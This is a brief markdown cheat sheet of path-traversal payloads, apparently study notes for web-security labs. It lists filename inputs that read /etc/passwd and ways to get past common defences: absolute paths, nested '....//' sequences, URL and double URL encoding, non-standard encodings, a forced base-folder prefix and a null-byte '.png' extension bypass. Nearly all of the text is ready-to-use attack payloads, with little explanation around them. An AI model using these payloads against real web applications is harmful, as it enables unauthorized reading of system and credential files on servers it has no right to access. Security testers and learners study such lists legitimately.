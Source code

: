 ## basic

> `../../../etc/passwd`

# Common obstacles 

## traversal sequences blocked
#### absolute path
```python
/etc/passwd
```

#### nested traversal sequences 
```python
....//....//....//etc/passwd
```
#### URL encode
- This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`
```python
..%252f..%252f..%252fetc/passwd
```

## expected base folder

example: `/var/www/images` 
```python
filename=/var/www/images/../../../etc/passwd
```
## expected file extension

example: `.png`
```python
filename=../../../etc/passwd%00.png
```
/git